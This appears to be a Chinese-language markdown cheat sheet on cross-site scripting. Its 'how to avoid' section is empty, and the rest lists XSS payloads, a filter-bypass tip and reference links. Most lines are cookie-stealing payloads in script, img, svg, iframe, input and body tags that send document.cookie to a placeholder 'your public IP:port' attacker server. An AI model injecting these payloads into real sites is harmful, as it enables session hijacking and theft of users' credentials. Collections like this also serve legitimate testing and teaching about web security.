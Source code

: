 

### 如何避免跨站脚本漏洞



### XSS 的常用 payload

#### img 标签

```
<img src =javascript:alert("xss")>
<IMG SRC=javascript:alert(String.formCharCode(88,83,83))>
```



```php
<script>window.open('http://你的公网ip:端口号/'+document.cookie)</script>

<script>var img = document.createElement("img");img.src = "http://你的公网ip:端口号/?cookie="+document.cookie;</script>

<script>window.location.href='http://你的公网ip:端口号/'+document.cookie</script>

<script>location.href='http://你的公网ip:端口号/'+document.cookie</script>

<input onfocus="window.open('http://你的公网ip:端口号/'+document.cookie)" autofocus>

<svg onload="window.open('http://你的公网ip:端口号/'+document.cookie)">

<iframe onload="window.open('http://你的公网ip:端口号/'+document.cookie)"></iframe>

<body onload="window.open('http://你的公网ip:端口号/'+document.cookie)">

```



### XSS 过滤绕过

#### 过滤了空格

可以使用斜杠 / 来绕过





### 参考链接

[freebuf](https://www.freebuf.com/articles/web/289263.html)

[浅谈XSS](https://xz.aliyun.com/t/9424)

[dvwa的XSS详解](https://blog.csdn.net/weixin_50464560/article/details/114782337)

[OWASP](https://owasp.org/www-community/attacks/xss/)

